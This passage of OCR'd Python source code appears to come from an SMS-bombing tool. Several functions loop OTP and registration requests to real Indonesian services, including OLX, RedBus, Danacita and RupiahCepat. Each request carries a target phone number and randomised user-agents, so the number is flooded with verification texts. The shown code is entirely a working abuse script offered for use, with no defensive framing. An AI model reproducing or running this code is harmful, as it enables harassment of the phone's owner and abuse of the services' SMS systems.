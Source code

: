      }
     r = ru.Session()
     hyu = r.post("https://harvestcakes.com/register",headers=hd,data=dat)
     if 'function' in hyu.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}TheHarvest{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}TheHarvest{kun} Gagal abang jago")
 def danacinta(nom):
     hd = {'user-agent':ua.random}
     for x in range(5):
       yu = ru.get("https://api.danacita.co.id/users/send_otp/?mobile_phone=0"+nom, headers=hd)
     yu1 = json.loads(yu.text)
     if yu1["detail"] == 'Successfully sent OTP SMS':
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}DanaCinta{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}DanaCinta{kun} Gagal abang jago")
 def redbus(nom):
     for i in range(2):
       kil = ru.get("https://m.redbus.id/api/getOtp?number="+nom+"&cc=62&whatsAppOpted=true").text
     if 'OTP' in kil:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}RedBus{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}RedBus{kun} Gagal abang jago")
 def olx(nom):
     head = {
        "accept": "*/*",
        "x-newrelic-id": "VQMGU1ZVDxABU1lbBgMDUlI=",
        "x-panamera-fingerprint": "83b09e49653c37fb4dc38423d82d74d7#1597271158063",
        "user-agent": ua.random ,
        "content-type": "application/json",
        }
     dat = json.dumps({
          "grantType": "retry",
          "method": "sms",
          "phone": "+62"+nom,
          "language": "id"
        })
     r = ru.Session()
     for x in range(5):
        eek = r.post("https://www.olx.co.id/api/auth/authenticate",data=dat,headers=head).text
     if 'status' in eek:
       print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}OLX{kan} OK")
     else:
       print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}OLX{kun} Gagal abang jago")
 def rupiahcepat(nom):
     hd = {
     "accept": "text/html, application/xhtml+xml, application/json, */*",
     "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7",
     "content-length": "166",
     "content-type": "application/x-www-form-urlencoded; charset=UTF-8",
     "origin": "https://h5.rupiahcepatweb.com",
     "referer": "https://h5.rupiahcepatweb.com/dua2/pages/openPacket/openPacket.html?activityId=11&invite=200219190100215723",
     "sec-fetch-dest": "empty",
     "sec-fetch-mode": "cors",
     "sec-fetch-site": "same-site",
     "user-agent": ua.random
     }
     url = 'https://apiservice.rupiahcepatweb.com/webapi/v1/request_login_register_auth_code'
     dit = {"mobile":"0"+nom,"noise":"1583590641573155574","request_time":"158359064157312","access_token":"11111"}
     dat = json.dumps(dit)
     r = ru.Session()
     a = r.post(url,headers=hd,data={"data":dat}).text